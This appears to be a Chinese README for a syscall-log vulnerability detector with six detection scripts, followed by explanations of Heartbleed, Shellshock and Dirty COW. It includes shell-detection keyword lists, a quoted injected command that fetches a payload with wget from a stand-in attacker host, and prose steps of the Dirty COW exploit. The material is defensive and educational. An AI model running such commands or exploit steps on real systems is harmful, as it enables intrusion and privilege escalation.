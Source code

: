 # 分析脚本 ( ***To Be Expanded*** )
Scripts 下是六个 python 脚本以及对应的示例日志文件 , 分别用于检测不同的漏洞

### 0.1 HOW TO RUN
只需在 Analyzer/Scripts/XXXX 目录下用 python3 执行对应 python 脚本即可

***现在只需将日志放入 log.jsonl ， 然后在 Scripts 目录下执行 `python3 run.py` 即可测试所有漏洞***

### 0.2 OUTPUT FORMAT
```
============================================================
[!!!] High Risk Alert: Potential [Race Condition (Dirty COW-like)] vulnerability detected!
      - Process ID: 13612
      - Alert Line: 26
      - Evidence: Detected 5 madvise calls and 5 writes to /proc/self/mem in 2 seconds, exceeding threshold of (5,5)
      - Full Log Entry: {"ts": 503.5, "event": "WRITE", "pid": 13612, "filename": "/proc/self/mem", "buf": "rootpl"}
============================================================
```
```
============================================================
[!!!] Medium Risk Alert: Potential [Memory Corruption (Weak Signal)] vulnerability detected!
      - Process ID: -1
      - Alert Line: 2
      - Evidence: Detected abnormally large page allocation via mmap: 2048 pages
      - Full Log Entry: {"ts": 302, "pid": -1, "evt": "MMAP_SUM", "meta": {"count": 5, "max_pages": 2048}}
============================================================
```

### 1. AccessControl
- 检测是否有提权操作 ( PRIVILEGE_ESCALATION_EVENTS = {"SETUID", "SETGID", "SETREUID", "SETRESUID"} ) 且尝试设置uid为0 (root)
- 检测是否可能访问无权访问的文件 ( 包含 ../ 路径 , 或是在黑名单中的敏感文件 )

### 2. CodeInjection
- 检测是否使用 EXEC syscall 执行了可疑的 shell ( SUSPICIOUS_COMMANDS = { "/bin/sh", "/bin/bash", "/bin/csh", "/usr/bin/sh", "/usr/bin/bash", "sh", "bash"} )

### 3. ForkBomb
- 检测在一个时间窗口中是否出现了大量 fork 系统调用

### 4. InformationLeakage
- 检测是否在一个时间窗口中先出现了接收/读取 size 很小的数据 , 然后发送/写入 size 很大的数据

### 5. MemoryCorruption
- 强特征检测: 检测是否有 mprotect 调用 , 并将一块内存区域的权限标记为可执行 
- 弱特征检测: 检测是否有异常大的内存映射 , 但这只是一个弱特征 , 表示可能存在大的内存分配 , 而非确切的攻击行为

### 6. RaceCondition
- 检测是否有高频、并发地调用 mmap , madvise , 和 write ( 针对 /proc/self/mem ) , 具体原理见下文

---

# 恶意代码示例
MaliciousCode 下是三个典型的高危漏洞 
### Heartbleed
- 这是一个边界检查缺失导致的信息泄露漏洞。攻击者可以向服务器发送一个特制的心跳请求，请求一块很大的内存（比如64KB），但实际只发送了很小的数据。有漏洞的服务器不会检查请求长度和实际数据长度是否匹配，直接从内存中复制并返回64KB数据，这其中就可能包含服务器的私钥、用户会话、密码等敏感信息。
- Heartbleed触发时的序列:

  1. 服务器进程通过 read()/recvfrom() 接收到攻击者发来的恶意心跳包。

  2. OpenSSL库在内存中处理这个包时，由于逻辑缺陷，会读取到不该读取的内存区域。

  3. 服务器最终通过 write()/sendto() 将这块包含敏感信息的内存区域发送回攻击者。

### Shellshock
- 这是一个命令注入漏洞。Bash在处理某些特殊构造的环境变量时，会错误地将环境变量值中的字符串作为命令来执行。当一个程序（如网页服务器的CGI脚本）接收用户输入并将其设置为环境变量，然后调用Bash时，攻击者就可以远程执行任意命令。<br><br>由于 bash 问题已被修复 ，可能需要旧版本的 docker 才能正确演示

- Shellshock触发时的序列:

    1. Apache进程通过 read() 接收到一个包含恶意HTTP头的请求。

    2. Apache fork() 并准备通过 execve() 运行CGI脚本。在调用 execve() 之前，它会将HTTP头（如User-Agent）设置为环境变量。

    3. execve() 成功执行，Bash进程启动。

    4. Bash在初始化、解析环境变量时，触发了漏洞。

    5. 关键点: Bash进程内部会再次调用 fork() 和 execve() 来执行攻击者注入的命令（例如 /bin/sh -c 'wget http://attacker.com/payload'）。

### Dirty COW
- 这是一个Linux内核的竞争条件漏洞，允许本地低权限用户提权至root。漏洞在于内核内存子系统处理写时复制（Copy-on-Write, COW）机制时存在缺陷。攻击者可以利用这个缺陷，向一个只读的内存映射（例如一个由root拥有的文件 /etc/passwd）写入数据。 <br><br> ***警告***：请务必在专门的、可丢弃的虚拟机或Docker容器中运行此代码。虽然此PoC是本地的，但它利用的是内核级漏洞，在不安全的系统上运行可能导致系统不稳定。
- Dirty COW触发时的序列:

    1. 攻击者进程使用 mmap() 将一个只读文件（如 /etc/passwd）映射到内存中。

    2. 进程创建两个线程。

    3. 线程A: 在一个循环中，反复调用 madvise(addr, len, MADV_DONTNEED)。这个调用告诉内核“我不再需要这块内存了”，内核会丢弃它，但保留映射关系。下次访问时会重新从文件加载（触发COW）。

    4. 线程B: 同时，在另一个循环中，通过 open("/proc/self/mem", O_RDWR) 并 lseek() 到目标内存地址，然后 write() 尝试向这块只读映射写入数据。